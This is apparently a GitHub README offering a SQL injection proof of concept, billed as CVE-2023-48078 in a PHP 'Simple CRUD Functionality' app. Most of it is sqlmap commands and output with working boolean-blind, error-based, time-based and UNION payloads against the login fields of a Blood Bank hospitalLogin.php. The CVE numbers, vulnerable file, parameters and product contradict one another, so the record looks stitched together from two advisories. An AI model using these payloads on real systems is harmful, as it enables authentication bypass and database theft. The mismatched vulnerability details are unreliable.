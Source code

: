 # Simple-CRUD-Functionality-SQLi-POC - CVE-2023-48078
+ Exploit Author: esasadam06
# Vendor Homepage
+ https://code-projects.org/simple-crud-functionality-in-php-with-source-code
# Software Link
+ https://download.code-projects.org/details/8e863682-a839-4645-94e0-ae769c83635d
# Overview
+ Simple CRUD Functionality SQLi POC is susceptible to a significant security vulnerability that arises from insufficient protection on the 'title' parameters in the hospitalLogin.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46014
+ Affected Version: Simple CRUD Functionality V1.0
+ Vulnerable File: /add.php
+ Parameter Names: title
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48078
+ https://nvd.nist.gov/vuln/detail/CVE-2023-48078
# Description
+ The lack of proper input validation and sanitization on the 'hemail' and 'hpassword' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/bloodbank/file/hospitalLogin.php" --method POST --data "hemail=test@test&hpassword=test&hlogin=Login" -p hemail --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: hemail (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: hemail=test@test' AND 3778=(SELECT (CASE WHEN (3778=3778) THEN 3778 ELSE (SELECT 9754 UNION SELECT 4153) END))-- -&hpassword=test&hlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hemail=test@test' OR (SELECT 3342 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(3342=3342,1))),0x7170767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- NSQu&hpassword=test&hlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hemail=test@test' AND (SELECT 5639 FROM (SELECT(SLEEP(5)))ulgW)-- QYnb&hpassword=test&hlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test' UNION ALL SELECT CONCAT(0x716a7a6b71,0x567a4f6f4b556976707668696878754f48514d6e63424a706f70714e6f62684f504a7a565178736a,0x7170767a71),NULL,NULL,NULL,NULL,NULL-- -&hpassword=test&hlogin=Login
---
```
+ `sqlmap -u "http://localhost/bloodbank/file/hospitalLogin.php" --method POST --data "hemail=test@test&hpassword=test&hlogin=Login" -p hpassword --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: hpassword (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: hemail=test@test&hpassword=test' AND 4940=(SELECT (CASE WHEN (4940=4940) THEN 4940 ELSE (SELECT 5623 UNION SELECT 6789) END))-- -&hlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hemail=test@test&hpassword=test' OR (SELECT 8207 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(8207=8207,1))),0x7170767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- TrPm&hlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hemail=test@test&hpassword=test' AND (SELECT 3303 FROM (SELECT(SLEEP(5)))PdPC)-- lTZZ&hlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test&hpassword=test' UNION ALL SELECT NULL,CONCAT(0x716a7a6b71,0x5271514f636f6f46476f6365424b6e6166454c725751704d6f6c467968626a4e725172785955416d,0x7170767a71),NULL,NULL,NULL,NULL-- -&hlogin=Login
---
```

+ current database: `bloodbank`
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46014-Code-Projects-Blood-Bank-1.0-SQL-Injection-Vulnerability/assets/113091631/2d932b0a-4a01-4064-9b08-607204433d10">